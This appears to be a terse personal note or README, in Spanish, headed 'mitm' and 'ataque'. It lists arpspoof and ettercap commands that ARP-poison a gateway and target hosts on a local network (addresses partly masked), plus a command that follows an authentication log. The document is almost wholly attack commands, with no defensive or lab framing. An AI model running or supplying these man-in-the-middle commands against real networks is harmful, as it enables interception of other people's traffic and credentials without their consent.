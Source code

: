 # mitm

ataque:

arpspoof -r -t 192.168.x.1 192.168.x.5

o

ettercap -i enp0s3 -T -M arp /192.168.x.1// /192.168.x.5,192.168.x.6//

sudo tail -f /var/log/auth.log
